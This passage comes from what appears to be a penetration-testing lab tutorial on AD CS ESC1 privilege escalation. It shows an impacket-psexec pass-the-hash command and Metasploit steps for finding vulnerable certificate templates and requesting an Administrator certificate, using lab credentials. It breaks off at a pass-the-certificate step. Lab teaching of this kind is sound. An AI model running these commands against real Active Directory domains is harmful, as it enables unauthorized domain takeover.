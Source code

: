 impacket-psexec ignite.local/administrator@ignite.local -hashes aad3b435b51404eeaad3b435b51404ee:64fbae31cc352fc26af97cbdef151e03

\paragraph{\textbf{Method 2 : Metasploit}}

\textbf{Metasploit}, a powerful penetration testing framework, can automate ESC1 exploitation by:

\textbf{Step 1: Enumerating AD CS misconfigurations}

Before attacking, enumerate certificate templates to check for misconfigurations. Metasploit’s ldap\_esc\_vulnerable\_cert\_finder automates the process of finding misconfigured certificate templates that allow privilege escalation.

Start Metasploit and load the LDAP enumeration module.

msfconsoleuse auxiliary/gather/ldap/ldap\_esc\_vulnerable\_cert\_finderset RHOSTS 192.168.1.48set DOMAIN ignite.localset USERNAME aartiset PASSWORD Password@1run

\begin{itemize}
    \item The RHOSTS is the Domain Controller’s IP address.
    \item The DOMAIN is the target Active Directory domain
    \item The USERNAME \& PASSWORD are for a low-privileged AD user.
\end{itemize}
The module will check misconfigured certificate templates.

Look for:”Domain Users” can enroll

Once a vulnerable template is found, we can request a certificate as Administrator.

\textbf{Step 2: Requesting certificates for privilege escalation}

Load the Certificate Request Module

use auxiliary/admin/dcerpc/icpr\_certset rhosts 192.168.1.48set smbuser aartiset smbpass Password@1set CA ignite-DC1-CAset cert\_template Custom\_ESC1set smbdomain ignite.localrunThis requests a Kerberos authentication certificate for Administrator.

If successful, a .pfx certificate file is saved.

\textbf{Step 3: Using certificates for Pass-the-Certificate (PtC) attacks}

